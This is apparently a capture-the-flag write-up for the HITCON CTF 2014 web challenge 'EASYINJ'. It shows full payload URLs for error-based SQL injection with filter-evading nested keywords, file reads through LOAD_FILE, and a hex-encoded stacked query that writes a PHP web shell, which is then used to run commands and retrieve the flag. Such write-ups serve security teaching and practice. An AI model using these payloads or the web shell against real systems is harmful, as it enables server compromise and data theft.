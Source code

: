 # HITCON CTF 2014: EASYINJ

**Category:** Web
**Points:** 300
**Description:**

> http://54.238.22.67:10653/

## Write-up

When accessing the URL posted in the description, we are immediately forwarded to `http://54.238.22.67:10653/index.php?ip={your remote IP here}`, which displays the output of `phpinfo()`. As there is just one parameter, and the name of the challenge indicates this might be some sort of injection challenge, the first obvious step is to check for MySQL injection. Loading `http://54.238.22.67:10653/index.php?ip='` shows the following error message:

```
Warning: PDO::query() [pdo.query]: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''')' at line 1 in Z:\AppServ\www\index.php on line 43
```

So now that we know there's SQL injection, what useful things can we do with this? We can't see any output of the query, other than the error messages, so things like `UNION SELECT` won't be any use. While trying several things, I found that certain keywords appeared to be filtered. For instance `http://54.238.22.67:10653/index.php?ip='foo.bar` returns 

```
Warning: PDO::query() [pdo.query]: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'foobar')' at line 1 in Z:\AppServ\www\index.php on line 43
```

This shows that `foo.bar` was replaced by `foobar`, meaning that dots were filtered. Some keywords were filtered as well, for instance `http://54.238.22.67:10653/index.php?ip='fooSELECTbar` gives the same warning as above, meaning that `SELECT` was removed from the query. Luckily the stripping of keywords wasn't recursive, so in order to get a `SELECT`, you could request `http://54.238.22.67:10653/index.php?ip='fooSSELECTELECTbar`, which would show following warning:

```
Warning: PDO::query() [pdo.query]: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'fooSELECTbar')' at line 1 in Z:\AppServ\www\index.php on line 43
```

With all this information, we are ready to start extracting some data. It is possible to do this via a time-based attack, using constructs like `SELECT IF (SUBSTR(version(),1,1) = '5', SLEEP(10), 1)`, but this would take ages. [This blogpost](http://www.mathyvanhoef.com/2011/10/exploiting-insert-into-sql-injections.html) nicely describes how this can be done by generating errors containing the output of a query. I won't go into detail on how this works exactly, but do refer to the blogpost if you interested.

Using this error-based technique, we can construct our query like this: `http://54.238.22.67:10653/?ip='-(SSELECTELECT 1 FFROMROM (SSELECTELECT COUNT(1),CONCAT((SSELECTELECT 'test'),FLOOORR(RAANDND(0)*2)) x FFROMROM log GROUP BY x) t1)-'`, which returns

```
 Warning: PDO::query() [pdo.query]: SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry 'test1' for key 1 in Z:\AppServ\www\index.php on line 43
```

Note that the error message contains the result of our subquery, namely `test`. We can also run some more useful queries, such as `version()` (result: `5.0.51b-community-nt-log`), `user()` (result: `root@localhost`). Since the current MySQL user is root, we can most likely read files as well, so let's try it for the index.php file: 

```
http://54.238.22.67:10653/?ip='-(SSELECTELECT 1 FFROMROM (SSELECTELECT COUNT(1),CONCAT((SSELECTELECT LLOAD_FILEOAD_FILE(0x5a3a2f417070536572762f7777772f696e6465782e706870)),FLOOORR(RAANDND(0)*2)) x FFROMROM log GROUP BY x) t1)-'
```

*Note: Since dots are removed, `Z:/AppServ/www/index.php` is encoded as `0x5a3a2f417070536572762f7777772f696e6465782e706870`*

Returns:  

```
Warning: PDO::query() [pdo.query]: SQLSTATE[21000]: Cardinality violation: 1242 Subquery returns more than 1 row in Z:\AppServ\www\index.php on line 43
```

We can fix this by doing `SUBSTR(LOAD_FILE(...),1,40)`, which shows the first 40 bytes of the index.php file: `<?php if (!isset($_SESSION)) { session`. By increasing the offset of `SUBSTR()`, it's possible to extract the contents of [the complete index.php file](index.php).

The index.php file shows that `phpinfo()` entries are written to `log_guess^2/{$_SERVER['REMOTE_ADDR']}`. This gives us a directory that might be writable where we can put a shell.

Since the query we're injection into is `INSERT INTO`, we can't directly use `SELECT ... INTO OUTFILE`. However, it is possible to use stacked queries for this purpose. Because dots are filtered, we will need to use prepared statements to write to a `.php` file. This what I used to write a shell to `Z:/AppServ/www/log_guess^2/inject-this.php`:

```
http://54.238.22.67:10653/?ip=');SET @a=0x53454c45435420273c3f70687020696628697373657428245f4745545b2278225d29297b6563686f20223c7072653e222e7368656c6c5f6578656328245f4745545b2278225d292e223c2f7072653e223b7d203f3e2720494e544f204f555446494c4520275a3a2f417070536572762f7777772f6c6f675f67756573735e322f696e6a6563742d746869732e70687027;PREPARE st FFROMROM @a;EXECUTE st;SSELECTELECT ('
```

With this shell we can easily find the flag using `http://54.238.22.67:10653/log_guess^2/inject-this.php?x=dir Z:\`. This shows that the flag is located in `Z:\key_39uti2jb.txt`. Using `type`, we get the flag: `HITCON{a2f7af2ba385ea71bfa597f3aa692368}`.

## Other write-ups and resources

* [Exploiting 'INSERT INTO' SQL Injections Ninja Style](http://www.mathyvanhoef.com/2011/10/exploiting-insert-into-sql-injections.html)
